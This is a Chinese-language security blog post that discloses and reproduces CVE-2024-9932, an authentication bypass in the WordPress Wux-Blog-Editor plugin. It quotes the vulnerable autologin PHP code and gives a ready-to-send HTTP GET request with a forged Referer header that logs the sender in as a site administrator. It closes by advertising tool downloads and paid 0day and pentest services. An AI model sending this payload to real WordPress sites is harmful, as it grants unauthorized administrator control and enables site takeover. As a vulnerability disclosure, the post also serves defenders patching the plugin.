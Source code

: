 #  WordPress Wux-Blog-Editor 插件存在前台越权漏洞(直接成为管理员) CVE-2024-9932   
原创 Mstir  星悦安全   2024-12-31 04:25  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
  
![](https://mmbiz.qpic.cn/mmbiz_png/J7IPO94Qju9FTugulOKxWfnjYuhwWcBzNp3yfnwWrcF0DcKr27Zc4PQCiaoyhHg7ibojqgfRjictIicb6YtY1emIaw/640 "")  
  
## 0x00 前言  
  
##   
  
**Wux-Blog-Editor 是在一个地方编辑来自所有不同WordPress网站的帖子和页面的插件**  
## 0x01 漏洞分析&复现  
  
##   
  
**位于 /wp-content/plugins/wux-blog-editor/External_Post_Editor.php 中的 wuxbt_externalAutologin 方法存在前台越权漏洞，只需要传入Referer 为 https://blog.tool.wux.nl/ 即可直接登录管理员账号.**  
  
****  
```
//AUTOLOGIN TO WORDPRESS
function wuxbt_externalAutologin( $request ) {
    wuxbt_forceToken();


    if($_SERVER['HTTP_REFERER'] != 'https://blog.tool.wux.nl/'){
        
        if($_SERVER['HTTP_REFERER'] == "https://$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]"){
            
        }
        else{
            echo "Error code 444";
            exit;
        }
    }
    

    $blogusers = get_users( );
    // Array of WP_User objects.
    foreach ( $blogusers as $user ) {
        if ( in_array( 'administrator', (array) $user->roles ) ) {
            

            // Check if user is already logged in, redirect to account if true
            if (!is_user_logged_in()) {
                // Sanitize the received key to prevent SQL Injections
                $received_key = sanitize_text_field($_GET['token']);
                
                // Get the user id then set the login cookies to the browser
                wp_set_auth_cookie($user->ID);
                
                
                foreach($_COOKIE as $name => $value) {
                    // Find the cookie with prefix starting with "wordpress_logged_in_"
                    if(substr($name, 0, strlen('wordpress_logged_in_')) == 'wordpress_logged_in_') {
                        // Redirect to account page if the login cookie is already set.
                        echo 'Heeft gewerkt, ga naar /wp-admin';
                        wp_redirect( admin_url() );
                        exit;
                        
                    }
                }
                header("Refresh:1");
                echo 'Redirecting...';
                echo 'Laad deze oneindig? Ga dan naar /wp-admin';
            
            } else {
                wp_redirect( admin_url() );
                exit;
            }
        }else{
            // echo "Error code: 5U70";
        }
    }
}

add_action('rest_api_init', function () {
    register_rest_route('external-post-editor/v2', '/autologin', array(
        'methods' => 'GET',
        'callback' => 'wuxbt_externalAutologin',
        'permission_callback' => '__return_true',
    ));
});
```  
  
  
**Payload:**  
  
****  
```
GET /wp-json/external-post-editor/v2/autologin HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Referer: https://blog.tool.wux.nl/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: su_webp=1
Connection: close
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eBgXzVDwrJEiaTibztzJXCGdF4IkAS2ehqYicMiafN6C4qAK6Rg3dsQe9GRYCmZo5qmMv3FbV9ndazGA/640?wx_fmt=jpeg "")  
  
**可以看到直接添加了管理员的Cookie进去，然后直接访问 /wp-admin 即可进入后台**  
## 0x02 胶水下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**下载地址关注公众号发送 241231 获取!**  
  
****  
  
****  
**进公开群，代码审计，众测，驻场，渗透测试，攻防演练，CNVD证书全网最低价+VX: Lonely3944**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfhbPBGic08dIfyq6cCbZdhlLkQETGMqZfcZ4FxH5meYTWZAReibE9ZZcA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfGm5tc2via1EPictNibZVv7KiaQ3fIQQzxTaJibWDFmw6QaNzYicxTR3ye93g/640?wx_fmt=jpeg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
